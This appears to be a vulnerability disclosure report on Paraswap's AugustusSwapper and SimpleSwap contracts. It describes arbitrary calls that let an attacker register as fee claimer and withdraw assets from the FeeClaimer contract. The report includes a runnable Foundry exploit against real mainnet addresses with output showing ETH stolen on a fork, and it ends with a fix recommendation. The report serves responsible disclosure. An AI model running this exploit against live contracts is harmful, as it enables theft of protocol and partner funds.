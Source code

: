 **Description**\
Anyone can execute arbitrary calls as the AugustusSwapper (`msg.sender`) using the delegatecalled [simpleSwap(...)](https://etherscan.io/address/0x66C1c25d7D2bd4A32Ed33501E202B275030f402C#code#F1#L42) method of the SimpleSwap contract. The only exceptions are calls to [ERC20.transferFrom](https://etherscan.io/address/0x66C1c25d7D2bd4A32Ed33501E202B275030f402C#code#F1#L245) or calls to the [tokenTransferProxy](https://etherscan.io/address/0x66C1c25d7D2bd4A32Ed33501E202B275030f402C#code#F1#L235) contract.  
Although this a dangerous vulnerability on its own, it's hard to find immediate impacts, since the AugustusSwapper is not supposed to hold any assets.  

This only becomes dangerous when the AugustusSwapper has special rights/roles in other contracts. I already found once instance where this is the case which led to the current vulnerability.  

The [registerFee(...)](https://etherscan.io/address/0xeF13101C5bbD737cFb2bF00Bbd38c626AD6952F7#code#F1#L47) method of the FeeClaimer contract is only callable by the AugustusSwapper.  
As a consequence, an attacker can craft calls using `simpleSwap(...)` where he registers himself as claimer for *all*  unallocated fees/assets of the FeeClaimer contract. Subsequently, those fees/assets can be withdrawn by the attacker leading to a loss for the protocol and/or partners.

**Attack Scenario**
1. Craft a call to `AugustusSwapper/SimpleSwap.simpleSwap(...)` which actually calls `FeeClaimer.registerFee(...)` under the hood to register the attacker as fee claimer for an asset of choice.
2.  Execute the crafted "simple swap".
3.  Withdraw fees for the registered asset.
4.  Repeat with every available asset in the contract.

**Proof of Concept**

The following code is the main test file of a runnable PoC (using Foundry) which proves the above attack scenario, i.e. loss of funds.  
I am willing to provide the whole PoC project upon request.  

Nevertheless, this PoC also serves as a more detailed step-by-step description about how to execute the attack.

```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.13;

import "forge-std/Test.sol";
import "../src/tokens/Tokens.sol";
import "../src/external/interfaces/ISimpleSwap.sol";
import "../src/external/interfaces/IFeeClaimer.sol";

contract ParaswapHack is Test {
    uint256 mainnetFork;

    ISimpleSwap public augustusSwapper;
    IFeeClaimer public feeClaimer;

    function setUp() public {
        mainnetFork = vm.createFork("https://mainnet.infura.io/v3/<YOUR API KEY HERE>");
        vm.selectFork(mainnetFork);

        // AugustusSwapper: https://etherscan.io/address/0xDEF171Fe48CF0115B1d80b88dc8eAB59176FEe57
        // calls SimpleSwap via 'delegatecall': https://etherscan.io/address/0x66C1c25d7D2bd4A32Ed33501E202B275030f402C
        augustusSwapper = ISimpleSwap(0xDEF171Fe48CF0115B1d80b88dc8eAB59176FEe57);

        // https://etherscan.io/address/0xeF13101C5bbD737cFb2bF00Bbd38c626AD6952F7
        feeClaimer = IFeeClaimer(0xeF13101C5bbD737cFb2bF00Bbd38c626AD6952F7);
    }


    function testClaimFees() public {
        // build minimum 'SimpleSwap' data in order to execute 'FeeClaimer.registerFee'
        ISimpleSwap.SimpleData memory swapData;
        swapData.deadline = block.timestamp;

        // use this contract as mock token
        swapData.toAmount = 1;
        swapData.fromToken = address(this);
        swapData.toToken = address(this);

        // set 'FeeClaimer' address
        address[] memory callees = new address[](1);
        callees[0] = address(feeClaimer);
        swapData.callees = callees;

        uint256[] memory values = new uint256[](1);
        values[0] = 0;
        swapData.values = values;

        // build 'FeeClaimer.registerFee' call for this contract to claim ETH
        swapData.exchangeData = abi.encodeCall(IFeeClaimer.registerFee, (address(this), address(EthereumTokens.ETH), type(uint256).max));

        uint256[] memory startIndexes = new uint256[](2);
        startIndexes[0] = 0;
        startIndexes[1] = swapData.exchangeData.length;
        swapData.startIndexes = startIndexes;
        
        // execute 'FeeClaimer.registerFee' call as 'AugustusSwapper'
        augustusSwapper.simpleSwap(swapData);

        // steal ETH from 'FeeClaimer'
        uint256 balanceBefore = address(this).balance;
        feeClaimer.withdrawAllERC20(address(EthereumTokens.ETH), address(this));
        uint256 balanceAfter = address(this).balance;

        console.log("ETH balance increase :", balanceAfter - balanceBefore);
    }


    // Mock required ERC20 methods to trick 'SimpleSwap' into succeeding
    function transferFrom(address from, address to, uint256 amount) external returns (bool)
    {
        return true;
    }

    function transfer(address to, uint256 amount) external returns (bool)
    {
        return true;
    }

    function balanceOf(address account) external view returns (uint256)
    {
        return 1;
    }

    // receive ETH from FeeClaimer
    receive() payable external {}
}
```

Output as of 2023-09-29:
```shell
Running 1 test for test/ParaswapHack.t.sol:ParaswapHack
[PASS] testClaimFees() (gas: 63924)
Logs:
  ETH balance increase : 6597359717862898
```

**Recommendation**
 
I recommend to additionally prohibit calls to the FeeClaimer contract in [L235](https://etherscan.io/address/0x66C1c25d7D2bd4A32Ed33501E202B275030f402C#code#F1#L235) of the SimpleSwap contract in order to mitigate the current issue.  

However, this solution is pretty tailored to the current attack. I'll keep researching if this (nearly) arbitrary execution through SimpleSwap provides further attack vectors and might be able to provide a better recommendation once we get in touch.

